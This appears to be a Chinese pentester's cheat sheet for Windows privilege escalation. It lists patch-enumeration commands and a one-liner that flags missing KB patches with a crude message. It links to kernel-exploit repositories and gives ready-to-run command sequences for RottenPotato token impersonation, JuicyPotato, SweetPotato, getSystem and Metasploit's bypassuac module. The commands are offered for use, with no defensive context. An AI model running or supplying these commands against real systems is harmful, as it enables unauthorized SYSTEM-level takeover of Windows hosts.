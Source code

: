 #  信息收集

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:“KBxxxxxx”

# 04自动信息收集
Host Information Gathering Script：HIGS.bat
https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat
privilege-escalation-awesome-scripts：winPEAS.bat
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

# 提权工具脚本

https://blog.csdn.net/weixin_43873557/article/details/113760973


快速查找exp

systeminfo>micropoor.txt&(for %i in (   KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a  micropoor.txt

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/WindowsExploits/Exploits


## RottenPotato
https://github.com/foxglovesec/RottenPotato
```bash
msfmeter> use incognito
msfmeter> list_tokens -u
msfmeter> execute -cH -f C:/Users/test/Desktop/rottenpotato.exe
msfmeter> list_tokens -u
msfmeter> impersonate_token "NT AUTHORITY\SYSTEM"
```
## juicypotato
https://blog.csdn.net/negnegil/article/details/120243657
https://github.com/uknowsec/JuicyPotato
JuicyPotato.exe -t t -p c:\windows\system32\cmd.exe -l 1111 -c {4991d34b-80a1-4291-83b6-3328366b9097}

https://github.com/breenmachine/RottenPotatoNG
https://github.com/antonioCoco/RoguePotato2
https://github.com/CCob/SweetPotato
SweetPotato -a "whoami"
## getSystem
getSystem "whoami"


### bypassuac

```bash
search bypassuac
use exploit/windows/local/bypassuac
options
set session 1
run -j
getuid
getsystem
```
